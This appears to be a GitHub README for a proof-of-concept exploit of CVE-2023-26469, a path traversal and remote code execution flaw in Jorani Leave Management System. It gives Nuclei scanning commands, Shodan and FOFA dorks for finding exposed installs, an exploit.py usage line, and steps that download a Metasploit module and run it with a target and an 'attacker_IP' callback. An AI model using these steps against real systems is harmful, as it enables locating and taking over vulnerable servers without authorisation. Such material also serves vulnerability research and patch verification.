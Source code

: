 # CVE-2023-26469
![](https://img.shields.io/static/v1?label=Product&message=Leave%20Management%20System%20Jorani&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=v1.0.0&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Path%20Traversal%20%26%20Remote%20Code%20Execution&color=red)


- [Nuclei Template](https://raw.githubusercontent.com/projectdiscovery/nuclei-templates/main/http/cves/2023/CVE-2023-26469.yaml)

```
nuclei -target <target> -t CVE-2023-26469.yaml
```
```
nuclei -l <target_file> -t CVE-2023-26469.yaml
```
or
```
export SHODAN_API_KEY=xxxxx
```
```
nuclei -uq 'http.favicon.hash:-2032163853' -t CVE-2023-26469.yaml -vv
```

 - Shodan dork:
```
http.favicon.hash:1041760462
```
- FOFA dork:
```
icon_hash="1041760462"
```

### Usage

```
exploit.py <url>
```
### Metasploit Framework
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2023/Jorani_RCE/jorani_rce.rb
```
```
cp jorani_rce.rb /usr/share/metasploit-framework/modules/exploits/multi/php/jorani_path_trav.rb
```
```
msfdb reinit; msfconsole -q
```
```
use exploit/multi/php/jorani_path_trav.rb
```
```
set RHOSTS target_IP
```
```
set lhost attacker_IP
```
```
run
```
